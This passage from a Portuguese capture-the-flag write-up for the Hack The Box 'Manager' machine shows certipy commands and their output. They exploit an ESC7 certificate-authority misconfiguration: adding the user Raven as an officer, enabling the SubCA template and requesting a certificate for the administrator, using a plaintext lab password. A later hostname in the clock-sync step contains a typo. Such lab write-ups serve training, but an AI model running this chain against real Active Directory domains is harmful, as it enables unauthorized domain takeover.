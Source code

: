 ```shell
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
{: .nolineno }
![alt text](/assets/img/manager9.png)
### Escalando para administrator
#### Exploitando a vulnerabilidade com certipy

```shell
╭─      ~     ✔  13s   
╰─ certipy ca -ca 'manager-DC01-CA' -add-officer raven -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236    
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
{: .nolineno }

```shell
╭─      ~       ✔  5s   
╰─ certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
{: .nolineno }

```shell
 ─      ~           2 ✘  5s   
╰─ certipy req -ca 'manager-DC01-CA' -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```
{: .nolineno }
Caso estiver tendo erro igual na imagem abaixo, use o comando sudo `ntpdate -u dc01.manager.htb`  , para syncronizar o relógio com o kerberus da box.
![alt text](/assets/img/manager11.png)
```shell
╭─      ~         ✔  5s   
╰─ sudo ntpdate -u dc01.manager.tb                                                                                            
```